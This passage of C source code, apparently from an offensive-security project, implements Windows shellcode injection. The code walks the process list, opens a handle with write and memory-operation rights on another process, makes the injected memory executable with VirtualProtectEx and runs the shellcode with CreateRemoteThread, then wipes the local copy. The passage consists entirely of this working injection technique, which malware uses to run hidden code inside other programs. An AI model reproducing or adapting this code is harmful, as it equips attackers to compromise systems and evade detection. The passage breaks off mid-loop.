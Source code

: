 ```c
			printf("[+] Wrote %d bytes. Cleaning the shellcode from the local process ...\n", sBytesWritten);
			// Clean up the shellcode from the local process by overwriting it with 0s
			memset(pShellcode, '\0', sSizeOfShellcode);

			printf("[+] Trying to make the memory region executable ... \n");
			if (VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READ, &dwOldProtection)) {
				printf("[+] Launching the shellcode in a new thread ... \n");
				hThread = CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL);

				if (hThread != NULL) {
					printf("[+] Waiting 2000 ms for thread execution ... \n");
					// Waiting for 2000ms to prevent the main thread from exiting before the shellcode completely executes.
					WaitForSingleObject(hThread, 2000);
					return TRUE;
				} 
			}
		}
	}

	// If any function above fails return FALSE
	return FALSE;
}

BOOL GetProcessHandle(OUT HANDLE *phProcess) {

	printf("[+] Starting process enumeration ... \n");

	DWORD aProcesses         [1024 * 2];  // Array that will receive the list of PIDs
	DWORD dwReturnedBytes    = NULL;      // The number of bytes returned in the aProcesses array
	DWORD dwProcessesCount   = NULL;      // Will hold the number of PIDs returned in aProcesses
	HANDLE hProcess          = NULL;      // Will hold a handle to a target process
	BOOL bStatus             = FALSE; 
	
	// Get the array of PIDs in the system
	if (!EnumProcesses(aProcesses, sizeof(aProcesses), &dwReturnedBytes)) {
		printf("EnumProcesses failed with error: %d\n", GetLastError());
		return bStatus;
	}

	// Calculatiing the number of elements in the array
	dwProcessesCount = dwReturnedBytes / sizeof(DWORD);
	printf("Number of processes: %d\n", dwProcessesCount);

	int i = 0;
	do {
		if (aProcesses[i] != NULL) {
			printf("[+] Trying to open a handle to PID: %d ... \n", aProcesses[i]);

			// Desired access rights:
			//     PROCESS_VM_WRITE      -> Required to write to memory in a process using WriteProcessMemory
			//     PROCESS_VM_OPERATION  -> Required to perform an operation on the process (VirtualProtectEx)
			// Or use PROCESS_ALL_ACCESS
			if ((hProcess = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION, FALSE, aProcesses[i])) != NULL) {
				printf("[+] Handle opened for PID: %d\n", aProcesses[i]);
				bStatus = TRUE;
				*phProcess = hProcess; // Return handle by reference
```